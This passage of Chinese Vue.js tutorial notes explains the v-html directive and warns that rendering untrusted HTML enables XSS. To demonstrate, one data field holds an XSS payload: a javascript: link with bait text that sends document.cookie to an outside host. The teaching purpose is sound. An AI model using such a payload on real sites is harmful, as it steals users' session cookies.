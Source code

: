 `js`部分:

```js
Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

new Vue({
	el:'#root',
	data:{
		name:'尚硅谷',
		str:'<h3>你好啊！</h3>'
	}
})
```

## 15_2  `v-html`指令

- `v-html`指令：

	- 1.作用：向指定节点中渲染包含`html`结构的内容。

	- 2.与插值语法的区别：

		- (1).`v-html`会替换掉节点中所有的内容，`{{xx}}`则不会。

		- (2).`v-html`可以识别`html`结构。

	- 3.严重注意：`v-html`有安全性问题！！！！

		- (1).在网站上动态渲染任意`HTML`是非常危险的，容易导致`XSS`攻击。

		- (2).一定要在可信的内容上使用`v-html`，永不要用在用户提交的内容上！

`html`部分:

```html
<!-- 准备好一个容器-->
<div id="root">
	<div>你好，{{name}}</div>
	<div v-html="str"></div>
	<div v-html="str2"></div>
</div>
```

`js`部分:

```js
Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

new Vue({
	el:'#root',
	data:{
		name:'尚硅谷',
		str:'<h3>你好啊！</h3>',
		str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
	}
})
```

